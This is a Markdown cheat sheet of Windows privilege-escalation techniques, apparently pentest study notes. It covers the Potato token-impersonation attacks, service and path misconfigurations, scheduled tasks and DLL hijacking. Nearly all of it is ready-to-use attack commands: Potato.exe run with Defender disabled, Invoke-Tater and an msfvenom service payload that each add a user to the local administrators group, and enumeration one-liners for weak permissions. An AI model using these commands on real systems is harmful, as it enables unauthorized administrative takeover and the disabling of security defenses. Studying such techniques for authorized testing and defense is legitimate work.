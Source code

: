 ### Rotten Potato      
Works up to Windows 2016 and Windows 10 1803. JuicyPotato is a newer version         
SeImpersonate or SeAssignPrimaryToken      

### Hot Potato (Original)    
SeImpersonatePrivilige            
Windows 7, 8, 10, Server 2008, and Server 2012. Patched.           
exe: [Potato](https://github.com/foxglovesec/Potato/)     

     Potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true  
     
Powershell: [Tater](https://github.com/Kevin-Robertson/Tater). Need to bypass powershell execution policy. Upload Tater and import.    
     Import-Module Tater.ps1 
     Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"   

## Service Exploits 
    tasklist /svc 
    sc query 
    net start/stop service  
### Insecure Service Properties   
Dangerous perms: SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS 

    sc qc [service name]  
### Unquoted Service Paths   
Need unquoted service path and ability to start service 

    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """   
    sc qc [service name]        #to check what account service runs under 
    powershell "get-acl -Path 'C:\Program Files (x86)\Service Folder' | format-list"     #to check dir perms 
    
Generate exe and upload   

    msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe  
    sc start service  
### Weak Registry Permissions
### Insecure Service Executables   
    icalcs Shared  
    accesschk.exe -uwcqv "Everyone" *
    accesschk.exe -uwcqv "Authenticated Users" *
    accesschk.exe -uwcqv "Users" *
### Scheduled Tasks
    schtasks /query /fo LIST 2>nul | findstr TaskName  
    dir C:\windows\tasks  
### DLL Search Order Hijacking  
[Windows Server 2008-2019](https://itm4n.github.io/windows-server-netman-dll-hijacking/)   
